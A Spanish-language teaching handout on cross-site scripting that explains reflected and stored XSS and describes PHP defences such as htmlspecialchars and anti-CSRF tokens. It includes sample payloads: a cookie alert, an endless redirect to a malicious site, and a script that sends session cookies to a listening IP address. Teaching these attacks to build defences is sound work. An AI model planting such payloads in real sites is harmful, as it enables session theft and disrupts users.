 # XSS 
(Cross-Site Scripting)



---

## ¿Que es el XSS?

XSS significa Cross-Site Scripting y es una vulnerabilidad común de seguridad web que permite a un atacante inyectar código malicioso en una página web.

tipos:
Existen tres tipos principales de Cross-Site Scripting (XSS)

el XSS Reflected, el XSS Stored y el XSS DOM. En este curso vamos a hacer el XSS reflected y el XSS stored por falta de tiempo.

---
## ¿Como funciona?
En cualquier sitio donde podamos escribir 

<image src="/img/xss/1.png" alt="Descripción de la imagen">

---

## XSS Reflected y Stored
XSS Reflected

Aqui podemos ver una prueba de XSS que con un alert nos saque la cookie de sesion por un alert
```
<script>
    alert(document.cookie);
</script>
```

XSS stored

En este caso tenemos un XSS almacenado, le decimos almacenados o stored porque basicamente se quedad guarado en la pagina. como por ejemplo en comentarios.

este en si lo que se encarga es de hacer una continia redireccion a un sitio malicioso y llegando a afectar a la disponibilidad.
```
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesion a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.


```
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```
-----
## formas de securizar estos errores.

### XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected 

<image src="/img/xss/2.png" alt="Descripción de la imagen">

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro "name" es almacenado en una variable llamada "$name" y se utiliza la función "htmlspecialchars" para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro "name" para el usuario.

También hay una función llamada "generateSessionToken" que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

### XSS stored

<image src="/img/xss/3.png" alt="Descripción de la imagen">

 Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón "btnSign" es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF.
Recupera el valor de los campos de entrada del formulario, "mtxMessage" y "txtName".
Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario.
Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.

